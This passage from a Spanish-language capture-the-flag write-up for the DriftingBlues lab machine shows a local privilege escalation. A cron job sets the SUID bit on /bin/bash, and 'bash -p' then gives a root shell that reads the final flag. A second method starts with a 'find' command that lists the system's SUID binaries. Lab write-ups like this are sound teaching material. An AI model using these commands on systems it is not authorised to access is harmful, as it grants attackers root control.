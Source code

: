 Esperamos 1 minuto que corra nuevamente la tarea CRON y verificamos que tenemos permiso *SUID* sobre la bash.

```bash
eric@driftingblues:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Tem 12  2019 /bin/bash

eric@driftingblues:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Tem 12  2019 /bin/bash
```

Ejecutamos la bash con privilegios y accedemos como root, listando la Flag 2.

```bash
eric@driftingblues:/tmp$ bash -p
bash-4.3# id
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric)
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```

### Segunda forma de elevar nuestro privilegio.

Listamos los binarios `SUID` del sistema.

```bash
eric@driftingblues:~$ find / -perm -4000 2>/dev/null
/bin/bash
/bin/su
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```